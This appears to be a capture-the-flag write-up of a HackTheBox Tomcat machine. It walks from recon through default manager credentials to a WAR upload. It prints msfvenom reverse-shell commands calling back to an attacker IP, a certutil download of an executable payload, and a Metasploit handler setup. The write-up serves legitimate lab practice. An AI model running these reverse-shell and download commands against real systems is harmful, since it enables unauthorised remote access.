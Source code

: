 
## Reconnaissance

### nmap 

![]](./IMG/0.png)

![](./IMG/1.png)
### Web Service 

![](./IMG/2.png)
### Gobuster 

![](./IMG/4.png)

### Web Service 

> Following the result from gobuster, I can find the following page.

> host-manager

![](./IMG/6.png)

> /manager -> redirect to /manager/html 
> Shoe the following error message 

![](./IMG/5.png)

> It show a credenetial 

```
tomcat / s3cret
```

![](./IMG/7.png)

> Check the request in burpSuite
> It uses basic authentication in request header

![](./IMG/8.png)

![](./IMG/9.png)

> Modify the base64 content to tomcat / s3cret
> I can access to a management page

![](./IMG/10.png)

## Exploit 

> So far, I have exploit the login for management page
> Enumerate this page
> I found a upload function which used to deploy a new page / a new function to this site
> It seems only accepta WAR file 

![](./IMG/11.png)

> Research apache tomcat from HackTricks
> If I want to execute RCE, I need to create a war file 

- [(HackTricks)Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

![](./IMG/12.png)

![](./IMG/13.png)

> Create a malicious war file by msfvenom 
> I found 2 differnets payload, so I generate 2 different war file 

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.17.145 LPORT=443 -f war -o rev.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.17.145 LPORT=443 -f war -o rev2.war
```

![](./IMG/14.png)

![](./IMG/15.png)


 > In here, I think the 1st one works well 
 
 ![](./IMG/16.png)
![](./IMG/17.png)

![](./IMG/18.png)

![](./IMG/19.png)


> So far, I can get the reverse shell and it's system admin

![](./IMG/20.png)
![](./IMG/21.png)

> But I'm not able to read flags, it can't display anything (even error message)


![](./IMG/22.png)

> Get all flag 
![](./IMG/27.png)


----- 


> At first, I can't read the flag file properly,
> So, I tried a lot of things.
> such as change to powershell, it also failed and stuck 

![](./IMG/23.png)

> I  also tried to upload another windows backdoor 
> But it can't success by iwr or IRX 
> The successful step as follow: 

1. Create  another windows reverse shell executable file 

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.17.145 LPORT=1339 -f exe > rev.exe
```

>  using certutil to upload

```
certutil -urlcache -split -f http://10.10.17.145/rev.exe rev.exe
```

![](./IMG/26.png)

> Execute it and using msfconsole to catch the shell 

```
use multi/handler
set LPORT 1339
exploit
```

> It should success to get another shell 

## Reference 
### Write up

- [HackTheBox Writeup— Jerry](https://arkanoidctf.medium.com/hackthebox-writeup-jerry-aa2b992917a7)
- [(Video)Hacking HTB Jerry - OSCP TJNull's List - Exploiting Apache Tomcat/Coyote JSP Engine](https://www.youtube.com/watch?v=IVJgKzqpTXo)
- [Jerry: Hack the Box Walkthrough](https://medium.com/@ann_17/jerry-hack-the-box-walkthrough-f0641b1c53c6)
- [ HackTheBox | Jerry](https://benheater.com/hackthebox-jerry/)
### Tomcat 

- [(HackTricks)Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)
- [Apache Tomcat Manager .war reverse shell](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)
- [tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer)
- [Apache Tomcat Default Credentials](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
###### tags: `HackTheBox`